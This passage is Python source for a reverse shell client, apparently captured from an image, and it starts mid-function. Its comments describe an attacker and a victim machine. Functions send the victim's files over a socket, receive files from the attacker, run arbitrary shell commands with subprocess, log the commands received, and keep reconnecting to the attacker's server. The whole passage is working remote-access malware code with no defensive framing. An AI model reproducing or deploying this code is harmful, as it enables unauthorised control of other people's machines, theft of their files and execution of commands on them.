         try:
            with open(file_path, 'rb') as f:
                file_data = f.read()
                soc.send(file_data)
            return "File uploaded successfully."
        except Exception as e:
            return f"Error uploading file: {str(e)}"

# Function to download a file from the attacker to the victim
def download_file(file_path):
    try:
        with open(file_path, 'wb') as f:
            file_data = soc.recv(1024)  # Receive data from the attacker
            f.write(file_data)
            return f"File {file_path} downloaded successfully."
    except Exception as e:
        return f"Error downloading file: {str(e)}"

# Function to log commands received by the reverse shell
def log_command(command):
    timestamp = time.strftime('%Y-%m-%d %H:%M:%S', time.localtime())
    with open('command_log.txt', 'a') as log_file:
        log_file.write(f"[{timestamp}] {command}\n")

# Function to execute commands on the victim machine
def execute_command(command):
    try:
        result = subprocess.run(command, capture_output=True, text=True, shell=True)
        if result.returncode == 0:
            return result.stdout
        else:
            return result.stderr
    except Exception as e:
        return f"Error executing command: {str(e)}"

# Function to reconnect if the connection is lost
def reconnect():
    while True:
        try:
            soc.connect((server_addr, server_port))  # Attempt to reconnect
            print(f"Connected securely to {server_addr}:{server_port}")
            break
        except ConnectionError as e:
            print(f"Connection failed, retrying in 5 seconds: {e}")
            time.sleep(5)  # Retry connection after 5 seconds

